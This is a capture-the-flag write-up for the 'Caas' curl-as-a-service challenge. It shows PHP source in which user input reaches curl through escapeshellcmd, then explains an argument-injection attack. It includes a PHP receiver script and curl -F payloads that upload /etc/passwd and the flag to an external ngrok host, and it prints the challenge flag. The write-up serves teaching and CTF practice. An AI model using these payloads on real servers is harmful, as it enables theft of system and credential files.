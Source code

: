 # Caas

> *cURL As A Service or CAAS is a brand new Alien application, built so that humans can test the status of their websites. However, it seems that the Aliens have not quite got the hang of Human programming and the application is riddled with issues.*
> *This challenge will raise 43 euros for a good cause.*

The website simply `curl` a given domain name or IP address and return the result to the client user

![image-20210421004632439](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/Cyber-Apocalypse-2021/images/Caas-1.png?raw=true)

Taking a look at the source code given, these are the 3 main files that we need to pay close attention to

`main.js` for front-end processing :

```js
var input = document.getElementById('command');
var output = document.getElementById("console-output");

document.getElementById("command").addEventListener('keydown', (e) => {
  if (e.keyCode === 13) {

    let host = input.value;

    try {
      new URL(host);
    } catch {
      return output.innerHTML = "Illegal Characters Detected";
    }

    output.innerHTML = '';

    fetch('/api/curl', {
      method: 'POST',
      body: `ip=${host}`,
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
      }
    })
    .then(resp => resp.json())
    .then(data => {
      output.innerHTML = data.message;
    });

    input.value = '';
  }
});
```

`index.php` :

```php
<?php 
date_default_timezone_set('UTC');

spl_autoload_register(function ($name){
    if (preg_match('/Controller$/', $name))
    {
        $name = "controllers/${name}";
    }
    else if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

$router = new Router();
$router->new('GET', '/', 'CurlController@index');
$router->new('POST', '/api/curl', 'CurlController@execute' );

$response = $router->match();

die($response);
```

`CommandModel.php` :

```php
<?php
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
```

Basically the application will take a user input as a `host` URL to use as a `curl` command argument in `CommandModel.php` to respond the host's content to the client. As they used `escapeshellcmd()` to ensure that user execute only *one command*, we can exploit this using **Argument Injection** technique

Firstly, I built up a shell to retrieve the exfiltrated file data from the vulnerable server

```php
<?php file_put_contents('passwords.txt', file_get_contents($_FILES['password']['tmp_name'])); ?>
```

Then I hosted it using **ngrok** secure tunnel

![image-20210420231516732](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/Cyber-Apocalypse-2021/images/Caas-2.png?raw=true)

To bypass the `trycatch` used in the front-end JavaScript file, I simply used BurpSuite to intercept and modify the request

I used this payload to test the file retrieval on `/etc/passwd` and it workded

```
-F password=@/etc/passwd http://521cc97681d2.ngrok.io/shell.php
```

![image-20210420231924112](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/Cyber-Apocalypse-2021/images/Caas-3.png?raw=true)

Now I tried to retrieve the flag at `../../flag` :

```
-F password=@../../flag http://521cc97681d2.ngrok.io/shell.php
```

![image-20210420232202459](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/Cyber-Apocalypse-2021/images/Caas-4.png?raw=true)

Flag :

```
CHTB{f1le_r3trieval_4s_a_s3rv1ce}
```

